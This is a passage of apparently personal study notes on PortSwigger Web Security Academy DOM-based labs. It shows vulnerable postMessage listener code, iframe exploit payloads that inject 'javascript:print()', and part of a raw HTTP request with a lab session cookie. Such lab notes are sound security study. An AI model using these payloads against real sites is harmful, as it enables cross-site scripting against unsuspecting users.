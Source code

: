     ```python
    <iframe src="<https://target.com/>" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
    ```
    
- **[DOM XSS using web messages and `JSON.parse`](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)**
    
    **Vulnerable code**
    
    ```jsx
    <script>
                            window.addEventListener('message', function(e) {
                                var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                                document.body.appendChild(iframe);
                                try {
                                    d = JSON.parse(e.data);
                                } catch(e) {
                                    return;
                                }
                                switch(d.type) {
                                    case "page-load":
                                        ACMEplayer.element.scrollIntoView();
                                        break;
                                    case "load-channel":
                                        ACMEplayer.element.src = d.url;
                                        break;
                                    case "player-height-changed":
                                        ACMEplayer.element.style.width = d.width + "px";
                                        ACMEplayer.element.style.height = d.height + "px";
                                        break;
                                }
                            }, false);
                        </script>
    ```
    
    **Exploit**
    
    ```jsx
    <iframe src=https://<target.com>/ onload='this.contentWindow.postMessage("{\\"type\\":\\"load-channel\\",\\"url\\":\\"javascript:print()\\"}","*")'>
    ```
    
- **[DOM-based cookie manipulation](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)**
    
    **Vulnerable Request**
    
    ```jsx
    GET /product?productId=3 HTTP/2
    Host: 0a0500aa03c741a680172b2f00f4006e.web-security-academy.net
    Cookie: session=UqxhvcAmNGiFKyXTtDcZjENQWUSSiQUL; lastViewedProduct=https://0a0500aa03c741a680172b2f00f4006e.web-security-academy.net/product?productId=1
    Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: <https://0a0500aa03c741a680172b2f00f4006e.web-security-academy.net/>
    Accept-Encoding: gzip, deflate